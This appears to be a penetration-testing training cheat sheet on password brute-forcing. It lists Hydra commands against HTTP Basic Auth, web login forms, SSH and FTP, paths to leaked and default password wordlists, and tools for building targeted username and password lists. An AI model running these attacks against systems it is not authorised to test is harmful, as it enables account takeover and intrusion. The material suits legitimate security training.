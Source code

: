 # Hydra

| **Command**                                                                                                                                      | **Description**                                     |
| ------------------------------------------------------------------------------------------------------------------------------------------------ | --------------------------------------------------- |
| `hydra -h`                                                                                                                                       | hydra help                                          |
| `hydra -C wordlist.txt SERVER_IP -s PORT http-get /`                                                                                             | Basic Auth Brute Force - Combined Wordlist          |
| `hydra -L wordlist.txt -P wordlist.txt -u -f SERVER_IP -s PORT http-get /`                                                                       | Basic Auth Brute Force - User/Pass Wordlists        |
| `hydra -l admin -P wordlist.txt -f SERVER_IP -s PORT http-form-post "/login.php:username=^USER^&password=^PASS^:F/S=<succeed or fail message>'"` | Login Form Brute Force - Static User, Pass Wordlist |
| `hydra -L bill.txt -P william.txt -u -f ssh://SERVER_IP:PORT -t 4`                                                                               | SSH Brute Force - User/Pass Wordlists               |
| `hydra -l m.gates -P rockyou-10.txt ftp://127.0.0.1`                                                                                             | FTP Brute Force - Static User, Pass Wordlist        |

# Wordlists

| **Command**   | **Description**   |
| --------------|-------------------|
| `/opt/useful/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt` | Default Passwords Wordlist |
| `/opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt` | Common Passwords Wordlist |
| `/opt/useful/SecLists/Usernames/Names/names.txt` | Common Names Wordlist |

# Misc

| **Command**   | **Description**   |
| --------------|-------------------|
| `cupp -i` | Creating Custom Password Wordlist |
| `sed -ri '/^.{,7}$/d' william.txt` | Remove Passwords Shorter Than 8 |
| ```sed -ri '/[!-/:-@\[-`\{-~]+/!d' william.txt``` | Remove Passwords With No Special Chars |
| `sed -ri '/[0-9]+/!d' william.txt` | Remove Passwords With No Numbers |
| `./username-anarchy Bill Gates > bill.txt` | Generate Usernames List |
| `ssh b.gates@SERVER_IP -p PORT` | SSH to Server |
| `ftp 127.0.0.1` | FTP to Server |
| `su - user` | Switch to User |